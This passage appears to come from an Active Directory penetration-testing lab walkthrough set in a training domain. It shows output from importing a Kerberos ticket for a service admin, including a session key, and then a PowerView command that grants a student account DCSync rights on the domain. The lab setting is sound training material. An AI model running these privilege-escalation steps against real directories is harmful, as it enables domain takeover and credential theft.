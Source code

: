 ```
[*] Target LUID: 0x6d7248
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/14/2025 4:58:23 AM
  EndTime                  :  2/14/2025 2:58:23 PM
  RenewTill                :  2/21/2025 4:58:23 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  XSkrPAU7Jxekw8JU5mrW0ZQCe55tElx6Hs8v9PrSmws=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```

Run the below commands in the new spawned process.

![New spawned terminal process](./assets/screenshots/learning_objective_12_new_spawned_terminal_process.png)

`C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student422 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose`:
```
[SNIP]

VERBOSE: [Add-DomainObjectAcl] Granting principal CN=student422,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local 'DCSync'
on DC=dollarcorp,DC=moneycorp,DC=local

[SNIP]
```
